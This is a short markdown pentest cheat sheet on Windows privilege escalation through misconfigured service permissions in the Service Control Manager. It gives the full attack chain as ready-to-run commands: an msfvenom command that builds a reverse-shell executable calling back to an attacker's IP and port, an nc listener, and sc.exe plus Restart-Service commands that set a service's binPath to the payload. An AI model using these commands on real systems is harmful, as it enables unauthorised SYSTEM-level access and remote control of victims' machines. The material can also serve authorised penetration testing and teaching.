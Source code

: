 ## Service Permission with Service Control Manager

### Steps

#### Recon / Enumeration

If there are permissions that are allowed the following on a service:

```
Permissions       : QueryConfig, ChangeConfig, QueryStatus, EnumerateDependents, Start, Stop, Interrogate, ReadControl, GenericWrite, GenericRead
```

The service is vuln to this method.

#### Exploitation

Generate an reverse shell executable listening to your ip and port:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> lport=<port> -a x64 --platform windows -f exe -o exploit.exe
```

Deliver this payload to an directory you can write to like:

```
C:\Temp
C:\Program Data\
C:\Users\<username>\Downloads,Desktop,etc
```

start the listening port on your attacker machine:
```
nc -lvnp <port>
```

add the executable path to the scm with following command to the victim machine:

```
sc.exe config $serviceName binPath= "C:/<path/to/your/revshell.exe>"
Restart-Service -name <servicename>
```






